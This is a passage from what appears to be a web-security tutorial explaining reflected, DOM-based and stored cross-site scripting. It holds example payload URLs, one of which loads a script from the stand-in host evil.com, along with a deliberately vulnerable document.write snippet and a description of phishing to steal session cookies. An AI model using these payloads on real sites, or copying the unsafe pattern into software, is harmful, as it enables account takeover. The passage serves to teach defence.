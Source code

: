 And the script will execute, showing an alert box in the browser. This means the website is 
vulnerable to an XSS attack.

Now the attacker can craft a URL that executes a malicious script from their own domain:

{% highlight html %}
https://example.com?query=latest&news<\script%20src=”https://evil.com/malicious.js”
{% endhighlight %}

The attacker embeds this link into a phishing email and sends it to individuals who are users of the
target site and are likely to be logged into it. Some users might be hesitant to click on a link 
from an unknown sender, but it is enough that only a few are tricked into clicking.
Any user who clicks the link will cause the malicious script to execute. Typically, the script will 
contain code that steals the session cookie and allows the attacker to take over those users' accounts.
Reflected XSS can have more impact on Single Page Applications(SPAs), where the injected malicious 
script has a chance to linger longer due to the application not causing the browser to reload the entire DOM.

#### DOM-based XSS
DOM-based XSS is an attack where the attack payload gets executed as a result of modifying the DOM 
by exploiting client-side code (e.g., Snippet 1) that makes a decision using query or path parameters 
from the current page’s URL. That is, the HTTP response is not modified, unlike in stored and 
reflected XSS attacks, but the client-side code contained in the page executes differently due to 
the malicious code injection that occurred in the DOM. The attack usually starts with the victim 
requesting a crafted URL supplied by the attacker containing some embedded JavaScript.

```javascript
// Snippet 1: Front-end code making a decision using document.location
const url = document.location;
const message = url.substring(url.indexOf('message=') + 8, url.length)
document.write(message); // React equivalent: "dangerouslySetInnerHTML={{__html: message}}"
```
  
This script parses the URL to extract the value of the message parameter and writes this value into 
the page’s HTML source code. However, if an attacker crafts a URL containing JavaScript code as the 
value of the message parameter, this code will be dynamically written into the page and executed the
same way as if the server had returned it. Usually, this XSS occurs when an application employs a 
dynamic page to display error messages to users. Typically, the page takes a parameter containing 
the message’s text and renders this text back to the user within its response.

URL with malicious payload:   
`https://example.com/error?message=<script>alert('xss')</script>`
 
DOM APIs that access the current or the referring URL:
```javascript
document.location
document.URL
document.referrer
window.location
```
 
#### Stored XSS
A stored/persistent XSS vulnerability arises when data submitted by an attacker is stored in the 
application’s database via a destructive HTTP request such as POST or PUT and then displayed to 
other users without being sanitized.
